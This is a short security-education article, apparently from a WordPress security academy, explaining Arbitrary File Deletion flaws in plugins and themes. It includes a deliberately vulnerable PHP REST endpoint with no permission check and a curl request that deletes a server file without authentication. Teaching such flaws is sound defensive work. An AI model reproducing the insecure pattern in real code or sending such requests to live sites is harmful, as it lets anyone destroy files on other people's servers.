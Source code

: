 ```yaml
---
title: Arbitrary File Deletion
head:
    - tag: title
      content: Learn about Arbitrary File Deletion
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Deletion on WordPress. This includes improper file or directory deletion handling inside of the plugin/theme which can be used to delete arbitrary local files and directories inside of the server.

<LinkCard
  title="Learn how to secure your code against Arbitrary File Deletion"
  href="/academy/wordpress/securing-code/arbitrary-file-deletion/"
/>

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Deletion vulnerability:

- PHP related
    - [`unlink`](https://www.php.net/manual/en/function.unlink.php)
    - [`rmdir`](https://www.php.net/manual/en/function.rmdir.php)

- WordPress related
    - [`wp_delete_file`](https://developer.wordpress.org/reference/functions/wp_delete_file/)
    - [`wp_delete_file_from_directory`](https://developer.wordpress.org/reference/functions/wp_delete_file_from_directory/)
    - [`WP_Filesystem_Direct::delete`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/delete/)
    - [`WP_Filesystem_Direct::rmdir`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/rmdir/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("init", "rest_init_setup");

function rest_init_setup(){
    register_rest_route( "myplugin/v1", '/deletemedia/', array(
        'methods'                   =>  "POST",
        'callback'                  =>  'delete_media_upload',
        'permission_callback' => '__return_true',
    ) );
}

function delete_media_upload($request){
    $args = json_decode($request->get_body(),true);
    $data = array('status'=>false);
    if(!empty($args['media']) ){
        wp_delete_file( $args['media']['file'] );
        $data = array('status'=>true);
    }
    return new WP_REST_Response( $data, 200 );
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/deletemedia` endpoint specifying the needed parameter to trigger the `wp_delete_file` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/deletemedia -d '{"media":{"file":"<WORDPRESS_BASE_DIRECTORY>/license.txt"}}' -H 'Content-Type: application/json'
```
